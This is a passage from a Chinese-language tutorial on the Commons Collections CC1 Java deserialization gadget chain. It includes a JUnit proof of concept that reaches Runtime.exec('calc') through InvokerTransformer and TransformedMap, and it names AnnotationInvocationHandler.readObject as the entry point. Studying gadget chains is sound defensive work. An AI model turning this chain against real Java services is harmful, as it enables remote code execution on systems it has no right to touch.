 现在的思路就是：通过使用**TransformedMap**的**decorate**静态函数生成一个**TransformedMap**的对象，并且提升为父类**Map**，因为**setValue**只在**Map**类中有，子类中并没有定义。通过这个对象的**checkSetValue**方法到**setValue**方法，最后到**transform**方法（其中的参数是相同的）。

```
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import org.junit.Test;

import java.util.HashMap;
import java.util.Map;

public class CC1TEST {

    @Test
    public void Test() {

        InvokerTransformer invokerTransformer = new InvokerTransformer(
                "exec",
                new Class[]{String.class},
                new Object[]{"calc"});
        HashMap<Object, Object> map = new HashMap<>();
        map.put("a", "b");

        Map<Object,Object> decorated = TransformedMap.decorate(map, null, invokerTransformer);

        decorated.entrySet().forEach(entry -> {
           entry.setValue(Runtime.getRuntime()) ;
        });

    }
}
```

## AnnotationInvocationHandler

这个类实现了**Serializable**接口，因此可以被序列化

并且在其**readObject**方法中存在**setValue**方法的调用

因此这个类可以作为反序列化的起点
